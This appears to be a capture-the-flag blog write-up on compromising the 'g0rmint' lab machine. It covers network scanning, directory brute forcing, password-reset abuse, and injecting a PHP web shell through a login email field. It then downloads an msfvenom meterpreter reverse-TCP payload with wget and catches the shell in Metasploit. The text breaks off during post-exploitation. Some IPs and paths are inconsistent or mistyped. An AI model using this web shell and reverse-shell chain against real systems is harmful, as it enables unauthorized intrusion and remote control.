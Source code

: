 ```yaml
---
layout: post
title: g0rmint 
slug: g0rmint 
name: g0rmit
---
```


# g04mint

First off, find the box:

{% highlight bash %}
netdiscover -r 192.168.171.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts

3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.171.1   00:50:56:c0:00:01      1      60  VMware, Inc.
192.168.171.138 00:0c:29:1f:ad:4c      1      60  VMware, Inc.
192.168.171.254 00:50:56:fa:32:59      1      60  VMware, Inc.

{% endhighlight %}

Scan with nmap:

{% highlight bash %}
nmap -T4 -A -oA g0rmint  192.168.171.138
{% endhighlight %}

Looks like 22 and 80 are open, not a lot to go on...

Accessing the server on port 80 returns a 404 page, better try for a robots.txt and find this:

/* Too easy? Lets see */
Disallow: /g0rmint/*

Now I'm faced with a login page and nothing to go on, however the following showed up in the login page's markup:

{% highlight html %}
<meta name="backup-directory" content="s3cretbackupdirect0ry">
{% endhighlight %}

Next run dirb to try and find hidden content, nothing really popped up.

I tried fuzzing a bunch of mobile user agents to see if this meta tag somehow triggers a different page response as well as brute forcing the login/reset forms, nothing seemed to be working.

Then I remembered I need to try force browsing that directory now that new file system elements exist:

{% highlight bash %}

dirb http://192.168.171,138/g0rmint/s3crebackupdirect0ry -i -l

{% endhighlight %}

This found an info.php file which shows backup.zip, lets download that and take a look

A few interesting things here, first the config file has a function for writing PHP files out to the server, and the login page calls this storing the email form field in the generated PHP.

{% highlight php %}

function addlog($log, $reason) {
    $myFile = "s3cr3t-dir3ct0ry-f0r-l0gs/" . date("Y-m-d") . ".php";
    if (file_exists($myFile)) {
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    } else {
        $fh = fopen($myFile, 'w');
        fwrite($fh, file_get_contents("dummy.php") . "<br>\n");
        fclose($fh);
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    }
    fclose($fh);
}

{% endhighlight %}

Next looking at the register page if we know a legit user/email combination the user's password will be reset to the first 20 characters of a sha1 hash of the current date/time in GMT, which luckily gets printed to the page each time you reload or submit a postback.


After a lot of banging my head I finally learned a vital piece I'm usually missing during enumeration, in this case we need an email.  What I'm finally learning is I should be searching better any time I have a known input, in this case the email can be searched for in all this source code:

{% highlight bash %}

grep -i -r -E -o "\b[a-zA-Z0-9.-]+@[a-zA-Z0-9.-]+\.[a-zA-Z0-9.-]+\b" *
Binary file backup.zip matches
css/font-awesome.min.css:dave@davegandy.com
css/style.css:w3bdrill3r@gmail.com
css/style.css:timeline-left-arrow@2x.png
css/style.css:timeline-right-arrow@2x.png
css/style.css:chat-left@2x.png
css/style.css:chat-right@2x.png
css/style.css:chat-left-metro@2x.png
css/style.css:chat-right-metro@2x.png
css/font-awesome-ie7.min.css:dave@davegandy.com
db.sql:demo@example.com
Binary file img/gallery/photo5.jpg matches
js/jquery.elfinder.min.js:troex@fury.scancode.ru
js/jquery.elfinder.min.js:dio@std42.ru
js/jquery.elfinder.min.js:troex@fury.scancode.ru
js/jquery.elfinder.min.js:strogg@yandex.ru
js/jquery.elfinder.min.js:hypweb@gmail.com

{% endhighlight %}

Now to review all the files, style.css seems like a good starting point, thats usually the place an author or developer would put their CSS for a site/app.

{% highlight css %}

/*
* Author: noman
* Author Email: w3bdrill3r@gmail.com
* Version: 1.0.0
* g0rmint: Bik gai hai
* Copyright: Aunty g0rmint
* www: http://g0rmint.com
* Site managed and developed by author himself
*/

{% endhighlight %}

Right in plain site, it even states the manager/developer/admin as this person.

Now to get our password, time to generate our hash:

{% highlight php %}

substr(hash('sha1', 'date time string from the page load'), 0, 20);

{%endhighlight %}

and we have our password.

With the amount of time that elapsed getting this far I had completely forgotten about the addslashes call in config.php which lead to me wasting hours trying to get decent code execution going.  Once I reviewed the code again getting execution was pretty straightforward:

{% highlight php %}

<?php echo shell_exec(base64decode($_GET[cmd])); ?> 

{% endhighlight %}

as our email and we can start sending commands.

Now to generate a wget command to pull down a reverse_tcp shell:

{% highlight bash %}

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.171.136 LPORT=4444 R > shell.php
echo 'wget http://192.168.171.36:8000/shell.php' | base64
d2dldCBodHRwOi8vMTkyLjE2OC4xNzEuMzY6ODAwMC9zaGVsbC5waHAK==
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.171.138 - - [17/Jan/2018 22:32:39] "GET /shell.php HTTP/1.1" 200 -
{% endhighlight %}

Now to setup metasploit to handle the callback:

{% highlight bash %}

screen -S msf msfconsole

msf > use exploit/multi/handler
msf exploit(handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(handler) > set LHOST 192.168.171.136
LHOST => 192.168.171.136
msf exploit(handler) > set LPORT 4444
LPORT => 4444

set PAYLOAD php/meterpreter/reverse_tcp

{% endhighlight %}

Then request our webshell, and we have a meterpreter session running.

Once connected I grabbed and ran LinEnum from rebootuser in hopes of finding something juicy.  Once I had the output I started parsing through and searched for vulns in the kernel, mysql, apache. logs, binaries
